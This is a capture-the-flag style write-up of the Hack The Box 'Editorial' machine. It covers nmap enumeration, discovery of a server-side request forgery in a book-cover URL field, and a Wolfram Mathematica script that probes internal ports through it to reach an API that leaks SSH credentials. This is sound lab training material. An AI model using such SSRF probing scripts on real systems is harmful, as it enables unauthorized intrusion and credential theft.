

Editorial (https://app.hackthebox.com/machines/608) from Hack The Box is a vulnerable by design Linux machine and was part of their Season 5 competition. At the time, I was knee-deep in my OSEP studies, but I still found some time to work on other pentesting skills by trying to solve boxes for this competition. 

Initial enumeration revealed a web server running on port 80 and ssh on port 22.

```bash
Nmap scan report for editorial.htb (10.10.11.20)
Host is up, received user-set (0.095s latency).
Scanned at 2024-06-17 20:58:15 EDT for 98s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMApl7gtas1JLYVJ1BwP3Kpc6oXk6sp2JyCHM37ULGN+DRZ4kw2BBqO/yozkui+j1Yma1wnYsxv0oVYhjGeJavM=
|   256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMXtxiT4ZZTGZX4222Zer7f/kAWwdCWM/rGzRrGVZhYx
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Editorial Tiempo Arriba
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

I launched a web browser to review the site, which redirected to hxxp[://]editorial[.]htb, but the page didn’t load since editorial.htb didn't resolve. After adding editorial.htb and its IP address to /etc/hosts, I reloaded the page and could access it.

Soon after, I found a page with a "Book information" form and started testing it. The first field allowed me to enter a URL, so I provided one that pointed back to the IP address of my VPN interface on my Kali VM. I then started a netcat listener on port 80 on my VM.


After a couple of false starts, I was able to determine that I needed to select "Preview" to receive a connection back. I was using Burp Suite to allow me to easily change the request for testing. Forwarding the Request along results in a response that directs to a JPEG image file.


Based on the response, it seems we're looking at an Server-Side Request Forgery (SSRF) after making a request to localhost (aka 127.0.0.1) and it points to the same JPEG file.


My next approach was to determine if another web server or service was running locally. To test this, I needed to scan all 65,535 possible TCP ports internally. While testing each port isn't challenging, automating it requires crafting requests that dynamically insert each port, like` http://127.0.0.1:FUZZ`, and then reviewing the responses. Although tools like ffuf are well-suited for this task, I decided to experiment with Wolfram Mathematica to explore its potential in this context.

I started by taking a basic HTTP request template from Burp Suite and converting it into a function template in Wolfram Language that allowed for port insertion. While I’m not a pro with Wolfram Language, the solution worked for this purpose. Below is the code that makes these requests. It takes a port number as input, and if the response body doesn’t contain /static/images/, it outputs the port and response body. If /static/images/ is found, it simply prints the port number to confirm the code's functionality.

```mathematica
makeRequests[port_]:=Module[{boundary,bt,request,response},
boundary="---------------------------452647181736560613536731952";
bt=StringTemplate["
-----------------------------452647181736560613536731952
Content-Disposition: form-data; name=\"bookurl\"

http://127.0.0.1:``
-----------------------------452647181736560613536731952
Content-Disposition: form-data; name=\"bookfile\"; filename=\"\"
Content-Type: application/octet-stream


-----------------------------452647181736560613536731952--
"][port];
request=HTTPRequest["http://editorial.htb/upload-cover",<|"Method"->"POST","Headers"->{"Host"->"editorial.htb","User-Agent"->"Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0","Accept"->"*/*","Accept-Language"->"en-US,en;q=0.5","Accept-Encoding"->"gzip, deflate, br","Content-Type"->"multipart/form-data; boundary="<>boundary,"Content-Length"->ToString[StringLength[bt]],"Origin"->"http://editorial.htb","Referer"->"http://editorial.htb/upload"},"Body"->bt|>];
response=URLRead[request];
If[!StringContainsQ[response["Body"],"/static/images/"],Print[<|port->response["Body"]|>],Print[port]]
]
```

I didn't want to run over all +65k ports, so I started with a list of commonly using web ports.

```mathematica
popularWebserverPorts={"80","443","8080","8443","8000","8888","8081","8444","3000","9000","5000","8082","9090","8880"};
```

Execute our code and see what happens.

```mathematica
makeRequests[#]&/@popularWebserverPorts
```

On port 5000, there is a URL fragment which doesn't point to a JPEG.


Fortunately, one can "see" the contents of these links through the main website. I had tested the JPEG file earlier in the browser. We can make a request for this file.

```mathematica
URLRead[HTTPRequest["http://editorial.htb/static/uploads/4fceb143-596a-4068-999c-b3ff4003f166"]]
```

This request returns a JSON respose. 


Let's retrieve all the endpoints, and as one can see below, login credentials are retrieved.



I was able to use the credentials to get a shell on the machine using ssh impersonating dev. While enumerating and finding the initial exploit didn't use standard hacker tools, I did find devising an alternative exploit tool using Wolfram Mathematica satisfying. 